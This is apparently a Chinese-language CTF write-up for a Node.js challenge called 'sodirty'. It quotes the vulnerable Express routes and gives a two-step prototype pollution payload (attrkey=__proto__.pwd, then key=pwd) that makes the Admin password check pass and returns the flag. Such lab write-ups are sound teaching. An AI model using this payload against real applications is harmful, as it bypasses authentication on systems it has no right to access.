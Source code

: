 ![sd](../images/image-20221128214944076-1699690946540.png)

#### sodirty

关键代码

```js
const Admin = {
    "password":process.env.password?process.env.password:"password"
}

router.post("/getflag", function (req, res, next) {
    if (req.body.password === undefined || req.body.password === req.session.challenger.password){
        res.send("登录失败");
    }else{
        if(req.session.challenger.age > 79){
            res.send("糟老头子坏滴很");
        }
        let key = req.body.key.toString();
        let password = req.body.password.toString();
        if(Admin[key] === password){
            res.send(process.env.flag ? process.env.flag : "flag{test}");
        }else {
            res.send("密码错误，请使用管理员用户名登录.");
        }
    }

});

if (req.body.attrkey === undefined || req.body.attrval === undefined) {
            res.send("传参有误");
        }else {
            let key = req.body.attrkey.toString();
            let value = req.body.attrval.toString();
            setFn(req.session.challenger, key, value);
            res.send("修改成功");
        }
```

需要让下面代码成立

```js
Admin[key] === req.session.challenger.password
```

`req.session.challenger`的键名是可控的，所以只需要污染`req`的原型对象属性值就可以污染`Admin`

payload

```js
# 使得原型对象具有pwd属性值
attrkey=__proto__.pwd&value=18 # /update

# 因为Admin对象没有pwd属性，就会从原型对象寻找
key=pwd&password=18 # /getflag
```
